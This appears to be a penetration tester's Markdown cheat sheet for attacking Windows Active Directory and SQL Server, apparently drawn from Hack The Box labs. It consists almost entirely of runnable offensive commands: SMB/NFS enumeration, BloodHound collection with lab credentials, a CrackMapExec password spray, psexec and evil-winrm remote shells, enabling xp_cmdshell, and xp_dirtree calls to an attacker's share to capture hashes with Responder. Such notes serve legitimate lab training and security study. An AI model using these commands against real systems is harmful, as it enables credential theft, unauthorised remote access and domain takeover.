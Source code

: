 # Windows Recon & Attack
## Enumeration
### Common
```bash
smbmap -H <IP or hostname> -u null # Test for null access

bloodhound-python -d sequel.htb -u sql_svc -p 'WqSZAF6CysDQbGb3' -dc dc01.sequel.htb -gc dc01.sequel.htb -ns 10.10.11.51 -c all
```
### Scans
```bash
sudo nmap -p- -sC -sV $IP --open -oA scans/nmap_Initial
```

### Uncredentialed
List Shares
```bash
smbclient -L \\\\<IP or hostname> 
```
smbmap
```bash
smbmap -H <IP or hostname> -u null # Test for null access
```
Enumerate NFS Shares
```bash
/usr/sbin/showmount -e <IP>
```
Connect to NFS Shares
```bash
sudo mount -t nfs IP:share /tmp/mount/ -nolock
```
### Credentialed
CME
```bash
crackmapexec smb 10.10.10.178 -u TempUser -p welcome2019 --shares
```
smbmap
```bash
smbmap -H <IP or Hostname> -u <user> -p <password>
```
smbclient
```bash
smbclient -U <user> //<host or ip>/<share> <password>
```
Bloodhound-Python
```bash
bloodhound-python -d sequel.htb -u sql_svc -p 'WqSZAF6CysDQbGb3' -dc dc01.sequel.htb -gc dc01.sequel.htb -ns 10.10.11.51 -c all
```
PowerView/Sharpview
```powershell
#Get all users without a blank description field
Get-DomainUser -Properties samaccountname,description | Where {$_.description -ne $null}

#Get all all users with DCSync
$dcsync = Get-ObjectACL "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ObjectAceType -match 'Replication-Get')} | Select-Object -ExpandProperty SecurityIdentifier | Select -ExpandProperty value
Convert-SidToName $dcsync
```
### Password Spray
CME
```bash
crackmapexec smb 10.10.10.178 -u Usernames.txt -p 'welcome2019' --local-auth --continue-on-success
```
## Remote Shell
### Impacket
Impacket-psexec
```bash
impacket-psexec <user>:<password>@<IP>
```
### Evil-WinRM
```bash
evil-winrm -u <user> -p <password> -i <host or ip>
```
## Attack
### SQL
xp_cmdshell
```powershell
EXECUTE sp_configure 'show advanced options', 1
RECONFIGURE
EXECUTE sp_configure 'xp_cmdshell', 1
RECONFIGURE
xp_cmdshell 'whoami'
```
Hash Stealing with xp_subdris or xp_dirtree  
Start Responder on Attack machine
```powershell
EXEC master..xp_dirtree '\\10.10.110.17\share\'
or
EXEC master..xp_subdirs '\\10.10.110.17\share\'
#Collect hashes from Responder
```

